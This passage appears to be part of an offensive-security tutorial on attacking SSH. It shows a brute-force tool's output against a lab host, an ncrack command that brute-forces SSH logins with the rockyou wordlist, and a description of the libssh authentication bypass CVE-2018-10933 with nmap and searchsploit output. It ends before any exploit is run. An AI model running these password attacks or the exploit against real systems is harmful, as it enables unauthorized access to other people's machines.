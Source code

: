 ACCOUNT CHECK: [ssh] Host: 192.168.1.94 (1 of 1, 0 complete) User: noraj (1 of 1, 0 complete) Password: noraj (1 of 14344391 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.1.94 User: noraj Password: noraj [SUCCESS]
Extract of the help message:

  -h [TEXT]    : Target hostname or IP address
  -u [TEXT]    : Username to test
  -P [FILE]    : File containing passwords to test
  -e [n/s/ns]  : Additional password checks ([n] No Password, [s] Password = Username)
  -M [TEXT]    : Name of the module to execute (without the .mod extension)
Ncrack
With ncrack:

$ ncrack --user noraj -P /usr/share/wordlists/password/rockyou.txt ssh://192.168.1.94
Starting Ncrack 0.7 ( http://ncrack.org ) at 2020-01-02 21:50 CET

Discovered credentials for ssh on 192.168.1.94 22/tcp:
192.168.1.94 22/tcp ssh: 'noraj' 'noraj'

Ncrack done: 1 service scanned in 3.00 seconds.

Ncrack finished.
Extract of the help message:

  -P <filename>: password file
  --user <username_list>: comma-separated username list
Exploit �C LibSSH RCE
CVE-2018-10933 is the reference for a vulnerability impacting libssh library. This vulnerability allows unauthorized access by bypassing the authentication.

libssh versions 0.6 and above have an authentication bypass vulnerability in the server code. By presenting the server an SSH2_MSG_USERAUTH_SUCCESS message in place of the SSH2_MSG_USERAUTH_REQUEST message which the server would expect to initiate authentication, the attacker could successfully authentciate without any credentials. Advisory

When you find a vulnerable version with nmap you should see something like that:

22/tcp  open     ssh      libssh 0.8.3 (protocol 2.0)
searchsploit (the tool used to locally browse the Exploit-DB) shows the existing exploits available for libssh.

searchsploit libssh
-------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                              |  Path
                                                                                            | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------- ----------------------------------------
LibSSH 0.7.6 / 0.8.4 - Unauthorized Access                                                  | exploits/linux/remote/46307.py
libSSH - Authentication Bypass                                                              | exploits/linux/remote/45638.py
-------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
So we can use the exploit to execute a command on the target in order to confirm it is working.
